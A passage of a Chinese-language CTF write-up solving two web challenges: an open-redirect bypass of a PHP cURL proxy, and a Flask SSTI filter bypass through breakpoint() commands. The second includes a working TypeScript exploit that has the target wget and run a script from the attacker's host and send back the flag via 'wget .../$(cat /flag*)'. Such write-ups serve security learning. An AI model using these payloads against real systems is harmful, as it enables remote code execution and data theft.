 > Access <http://secretweb/flag> to get flag.

⚠️ Unintended Solution

{{<details "Source code"></details>}}

這題是利用 PHP cURL Module 實作的 Proxy Server，我們要利用這個 Proxy Server 來存取 `http://secretweb/flag`，但輸入的 URI 會被過濾後串上 `".cggc.chummy.tw:".$port`。這裡最可疑的 Function 是 `idn_to_ascii()`，看起來是為了那個越獄的 IDN~~，PHP 這種老東西碰這種新穎的玩具九成會出問題~~。

Fuzzing 一陣子之後想起來上一題的 `/logout` 會吃 Query 然後 Redirect，這題剛好會傳 Query 加上設定上有開 cURL Redirect 就拿來用了。

```bash
curl 'http://10.99.66.6/logout?service=previewsite&port=10002&next=http%3A%2F%2Fsecretweb%2Fflag'
CGGC{1Dn_7O_45c11_5o_57R4n9E_11fc26f06c33e83f65ade64679dc0e58}
```

看 Flag 發現預期解確實與 `idn_to_ascii()` 有關。

## Breakjail Online 🛜

題目作者：[好駭客 Vincent55](https://vincent55.tw/)\
解題組數：

{{<details "Source code"></details>}}

Flask SSTI 但用於取得 Global Object 的 `.` 和 `_` 都被 Filter 掉了，且 Payload 不可以超過 88 個字元。把題目在電腦上架起來和修好 `return` 後發現（\_Viεcon\_　剛好在解 Breakjail ⛓️ ~~不然我根本不知道這個 Function~~） `breakpoint()` 是與 Python Debugger 互動，並且有個 [Debugger Command](https://docs.python.org/3/library/pdb.html#debugger-commands) `commands \[bpnumber\]` 可以執行 Python Code，並且檢查 Log 會發現在 pdb 崩潰（沒有空間加上離開 pdb 的指令）之前確實有成功執行 Python Code。

Flag 的檔名後面有接上亂數，我們必須取得 Shell 才能順利取得 Flag。為了繞過取得 `os.system()` 的 `.`，我們需要執行兩串 Python Code，第一串先 `form os import *`，第二串就能直接用 `system()`。由於 `return` 被寫死成一個字串~~我又懶的研究 Python Bytecode 怎麼 return 東西~~，我選擇在目標主機上直接寫個 Shell Script 然後開個 Web Server 來收 Flag。最後一個問題是 IP 和 Domain 都會用到 `.` 字元，把 IP 轉成 10 進位數字就可以繞過。

```typescript
import { sleep } from 'bun'

const target = 'http://10.99.66.7:10003/SsTiMe?q='
const decimalIP = '2130706433' // (*´艸`*)

async function main() {
  await sleep(100)
  const payload = [
    "breakpoint(commands=['from os import *','system(\\\"",
    '\\")\'])',
  ]
  const shells = [`wget -O /z ${decimalIP}`, 'chmod +x /z', '/z']

  for (const shell of shells) {
    const response = await fetch(
      target + encodeURI(payload[0] + shell + payload[1]).replace('+', '%2B')
      // 這個 `+` 坑了我好久
    )
    console.log(
      `Executed shell command: ${shell}. Response: ${response.status}`
    )
  }
  await sleep(1000)
  process.exit(0)
}

Bun.serve({
  port: 80,
  fetch(request: Request) {
    const url = new URL(request.url)
    console.log(`Got message: ${decodeURI(url.pathname)}`)
    return new Response(`#!/bin/sh\nwget ${decimalIP}/$(cat /flag*)`)
```
